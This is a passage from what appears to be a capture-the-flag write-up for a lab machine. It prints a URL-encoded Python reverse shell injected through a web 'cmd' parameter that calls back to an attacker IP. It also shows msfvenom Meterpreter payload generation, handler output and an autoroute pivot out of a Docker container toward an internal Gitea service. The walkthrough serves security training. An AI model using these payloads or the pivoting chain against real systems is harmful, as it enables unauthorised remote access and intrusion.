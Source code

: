 ```	
http://10.10.11.164/anthares?cmd=python%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%2210.10.14.21%22%2C8000%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3B%20os.dup2%28s.fileno%28%29%2C2%29%3Bp%3Dsubprocess.call%28%5B%22%2Fbin%2Fsh%22%2C%22-i%22%5D%29%3B%27
```

The only problem is that the application is run in Docker, what means that we will need to scape now, the SSH service is probably running in the real machine though.

## Trying to scape from the container

So we are now inside the container as `root` but we want to own the machine not this. I starte enumerating a bit but I could not find something obvious so I tried to scan the real host from the container with Nmap. Looks like that filtered port 3000 is indeed openned to the container and according to information I got using `wget` from the container is hosting a Gitea application. There are also other ports open I will take a look later if necessary: 6000, 6001, 6002, 6003, 6004, 6005, 6006 and 6007.

Cool, time to pivot because I don't want to enumerate this web page using only the reverse shell. I will create and upload a meterpreter binary to get a session in Metasploit and then using routes and the `auxiliary/server/socks_proxy` module I will set up a SOCKS5 proxy:

```bash
# Generate a Meterpreter binary and upload it to the container
msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=10.10.14.21 LPORT=8080 -f elf > shell-x64.elf

# Start the handler and execute the Meterpreter binary to get a session
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload linux/x64/meterpreter_reverse_tcp
payload => linux/x64/meterpreter_reverse_tcp
msf6 exploit(multi/handler) > set LHOST tun0
LHOST => 10.10.14.21
msf6 exploit(multi/handler) > set LPORT 8080
LPORT => 8080
msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.10.14.21:8080 
[*] Meterpreter session 1 opened (10.10.14.21:8080 -> 10.10.11.164:55180 ) at 2022-05-30 13:56:22 -0400

#Once in meterpreter just run autoroute to create a route to the network we want to reach
meterpreter > run autoroute -s 172.17.0.1

[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]
[*] Adding a route to 172.17.0.1/255.255.255.0...
[+] Added route to 172.17.0.1/255.255.255.0 via 10.10.11.164
[*] Use the -p option to list all active routes


# Once the route is added, use auxiliary/server/socks_proxy and let the proxy running
```

